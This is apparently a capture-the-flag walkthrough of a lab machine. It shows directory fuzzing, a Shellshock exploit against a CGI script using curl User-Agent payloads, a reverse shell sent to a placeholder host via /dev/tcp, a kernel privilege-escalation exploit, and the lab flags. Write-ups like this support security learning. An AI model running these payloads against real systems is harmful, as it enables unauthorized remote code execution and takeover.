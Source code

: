 ```yaml
---
sticker: emoji//1f422
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |



# RECONNAISSANCE
---


![](images/Pasted%20image%2020250429135028.png)

Let's fuzz:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.214.142/FUZZ" -ic -c -t 200 -e .php,.html,.git

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.214.142/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .git
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.html              [Status: 200, Size: 3025, Words: 285, Lines: 43, Duration: 284ms]
.html                   [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 285ms]
                        [Status: 200, Size: 3025, Words: 285, Lines: 43, Duration: 285ms]
uploads                 [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 162ms]
img                     [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 933ms]
cgi-bin                 [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 933ms]
admin                   [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 160ms]
css                     [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 163ms]
js                      [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 160ms]
backup                  [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 159ms]
secret                  [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 159ms]
```


We got some interesting findings like `backup, secret` and `cgi-bin` let's check the first two:

![](images/Pasted%20image%2020250429140047.png)

There's an `id_rsa` key on here, we don't have the username so, let's simply save it for now, let's proceed to `secret`:


![](images/Pasted%20image%2020250429140228.png)

I tried getting some info with `steghide` but no luck, let's proceed then with `cgi-bin`, a `cgi-bin` directory often indicates the presence of legacy CGI (Common Gateway Interface) scripts, which can be vulnerable to attacks like **Shellshock**, **command injection**, or **path traversal** if poorly coded. 

Let's try `shellshock`, this vulnerability allows remote code execution without confirmation. A series of random characters, `() { :; }; ,` confuses Bash because it doesn't know what to do with them, so by default, it executes the code after it.

We need to fuzz the directory to find the script inside of it:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.214.142/cgi-bin/FUZZ" -ic -c -t 200 -e .cgi

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.214.142/cgi-bin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .cgi
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

test.cgi                [Status: 200, Size: 13, Words: 2, Lines: 2, Duration: 163ms]
```

There we go, let's proceed with exploitation.




# EXPLOITATION
---

With this, we can start the `shellshock` attack, let's test it:

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'id'" http://10.10.214.142/cgi-bin/test.cgi
```

![](images/Pasted%20image%2020250429140729.png)

There we go, `shellshock` attack works, let's get a shell then:

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'sh -i >& /dev/tcp/IP/9001 0>&1'" http://10.10.214.142/cgi-bin/test.cgi
```


![](images/Pasted%20image%2020250429140854.png)


We can proceed with privilege escalation.



# PRIVILEGE ESCALATION
---


Let's stabilize our shell first:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](images/Pasted%20image%2020250429141002.png)

Let's use `linpeas` to look for any `PE` vector:


![](images/Pasted%20image%2020250429142332.png)

As seen, we are dealing with a `3.13.0-32-generic` Linux version, let's search information about how to escalate privileges in it:

![](images/Pasted%20image%2020250429142418.png)

There's a `c` exploit we can get, once we get it on our victim machine, we can do the following:

```
gcc pe.c -o pe
```

If we try compiling it, we get this error:

```
www-data@ubuntu:/tmp$ gcc pe.c -o privesc
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

This is a problem in the `PATH`, we can fix it with:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Now, let's compile again:

```
gcc pe.c -o pe
```

![](images/Pasted%20image%2020250429143345.png)

There we go, we can simply run it now:

![](images/Pasted%20image%2020250429143408.png)

We are root now and can finally read both flags:

```
# cat /home/ryan/user.txt
THM{Sh3llSh0ck_r0ckz}
```

```
# cat /root/root.txt
THM{g00d_j0b_0day_is_Pleased}
```

![](images/Pasted%20image%2020250429143558.png)

